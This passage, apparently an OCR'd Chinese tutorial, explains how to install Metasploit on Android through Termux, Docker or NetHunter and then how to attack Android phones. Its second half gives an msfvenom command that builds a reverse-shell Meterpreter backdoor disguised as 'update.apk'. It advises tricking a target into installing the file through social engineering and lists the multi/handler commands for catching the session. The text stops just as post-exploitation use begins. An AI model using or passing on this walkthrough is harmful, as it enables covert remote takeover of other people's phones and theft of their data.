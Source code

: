 步骤：

从F-Droid商店安装Termux。

更新包：pkg update && pkg upgrade

安装必要的包：pkg install wget curl git ruby

下载Metasploit安装脚本（注意：由于Metasploit较大，且ARM架构兼容性问题，可能需要使用特定版本的安装脚本）。

运行安装脚本（例如，来自TrustedSec的安装脚本）：
wget https://raw.githubusercontent.com/TrustedSec/metasploit-framework/master/msfupdate
chmod +x msfupdate
./msfupdate

但是，由于Metasploit对Ruby版本和依赖库的要求，以及在ARM架构上的兼容性，安装过程可能会遇到问题。因此，更推荐使用以下方法：

方法2：使用Metasploit的Docker镜像
如果手机支持运行Docker（例如通过Termux安装Docker，或者使用其他容器环境），可以拉取Metasploit的Docker镜像来运行。

步骤：

在Termux中安装Docker（如果支持）。

拉取Metasploit镜像：docker pull metasploitframework/metasploit-framework

运行容器：docker run -it --network host metasploitframework/metasploit-framework

方法3：使用预编译的APK
有一些项目将Metasploit打包成APK，例如“NetHunter”（Kali Linux for Android）。NetHunter是专为Nexus和OnePlus等设备定制的渗透测试平台，它包含了Metasploit。

步骤：

安装NetHunter（需要Root权限和特定设备支持）。

在NetHunter应用中启动Metasploit。

二、针对手机（Android）的渗透测试

生成Android Payload
使用msfvenom生成一个Android后门程序。

在攻击机（可以是PC，也可以是手机上的Metasploit）上执行：
msfvenom -p android/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<端口> R > update.apk

然后将这个APK通过社会工程学方式诱骗目标安装并运行。

在Metasploit中设置监听
启动msfconsole，然后：

text
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST <你的IP>
set LPORT <端口>
exploit
当目标运行APK后，就会建立一个Meterpreter会话。

Android Meterpreter的高级用法
一旦建立会话，你可以执行很多操作，例如：
